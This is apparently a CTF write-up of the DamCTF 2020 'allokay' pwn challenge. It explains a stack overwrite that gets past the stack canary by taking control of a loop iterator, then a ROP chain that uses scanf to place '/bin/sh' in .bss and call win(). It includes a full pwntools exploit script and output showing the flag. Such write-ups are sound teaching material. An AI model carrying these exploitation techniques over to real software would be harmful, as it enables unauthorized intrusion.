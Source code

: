 ```yaml
---
layout: post
title: Dam CTF 2020 allokay (pwn)
---
```


# Dam CTF 2020: allokay (pwn)

Running checksec on the binary, we can see that many standard exploit mitigation technologies are present: stack canaries, non-executable stack, no RUNPATH. PIE is disabled, and the debugging symbols are still present.

## Initial dynamic analysis

The program asks for the number of favorite numbers the user has. Next, the user has to put in all of his favorite numbers. One noticable thing is that the program does not handle certain numbers well, for example, when the user has 10 favorite numbers,the program stops after 6 numbers.

![Initial dynamic analysis]({{site.baseurl}}/_posts/2020-10-11 20_46_01-allokay1.png)

## Initial Static analysis

Since the symbols are still present in the binary, loading the program into IDA gave us a clear overview of the execution flow and names of the functions. In a function called "get_input", the program gathers all of the user's favorite numbers. There is a stack cookie present in the function, so simply feeding a lot of data to overwrite the instruction pointer would be impossible.

## The "6 number" problem

As seen in the initial dynamic analysis, the program exits if more than 6 numbers are put into the program. This is because the value for the number of programs and the iterator are both stored on the stack, but the user's favorite numbers are stored on the stack too. Since the program does not dynamically create enough space on the stack depending on the amount of favorite numbers the user has, the numbers will overwrite both the iterator and the maximum amount of numbers. Since it overwrites the max numbers first, and since the number put in is very small, the numbers_max variable will be set to 0, and the loop condition is false. The loop will break, and the program will exit.

One interesting property of the "get_input" function is that the iterator determines where on the stack the input is being written.

![Number positioning]({{site.baseurl}}/_posts/2020-10-11 20_59_28-allokay2.png)

Since we control the iterator, we control where the program writes the data put in by the user, and since we control the numbers_max variable, we control how many writes it will perform before leaving the loop. This way, we can bypass the stack cookie and overwrite the saved return address with the address of "win()". It is important to note that the user has to put in the attacker data in the form of integers, since the scanf() function that gets the data uses the format string "%ld". For example, if we want to call win(), we would need to get the address in hexadecimal and convert it to decimal.

## /bin/sh

Unfortunately, the win() function requires an argument: the path for execve() to execute. The argument needs to be stored in rdi, so we first need to build a ropchain that puts "/bin/sh" into rdi. The binary itself does not contain that string, and simply popping the /bin/sh string from libc would not work either, since the remote server has ASLR enabled. Therefore, the ropchain needs to make a call to some function that gets input from the user and stores it somewhere the attacker intended.

The first function I considered was fgets(), since we could easily put in the literal string "/bin/sh" into stdin, and store it wherever we want. Unfortunately, there is no rop gadget that controls the rdx register, which is the third argument for the fgets() function. Instead, scanf() can be used to write the arbitrary data. One thing to note is that there is no "%s" format string in the binary, so we have to reuse the "%ld" string. This means that we need to put in the "/bin/sh" string in an integer format by converting the string to decimal with the ASCII table. For the write location of the "/bin/sh" string, I choose the .bss segment.

We now have enough information to build an exploit script and carry out an attack.

```
#!/bin/python3

from pwn import *

numbers_max_overwrite = b'85899345931'
iterator_overwrite = b'42949672971'
poprdi = b'4196659'
ld = b'4196717'
poprsi_popr15 = b'4196657'
binsh_location = b'6295680'
scanf = b'4195936'
win = b'4196199'
binsh = b'29400045130965551'

r = remote('chals.damctf.xyz', 32575)

r.recvuntil(b'How many favorite numbers do you have?\n')
r.sendline(b'10')

for x in range(5):
    r.recvuntil(b': ')
    r.sendline(b'2')

r.recvuntil(b': ')
r.sendline(numbers_max_overwrite)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(iterator_overwrite)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(ld)
r.recvuntil(b': ')
r.sendline(poprsi_popr15)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(scanf)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(win)
r.sendline(binsh)

r.interactive()
```

Script output:
```console
[+] Opening connection to chals.damctf.xyz on port 32575: Done
[*] Switching to interactive mode
$ ls
allokay
flag
$ cat flag
dam{4Re_u_A11_0cK4y}
```
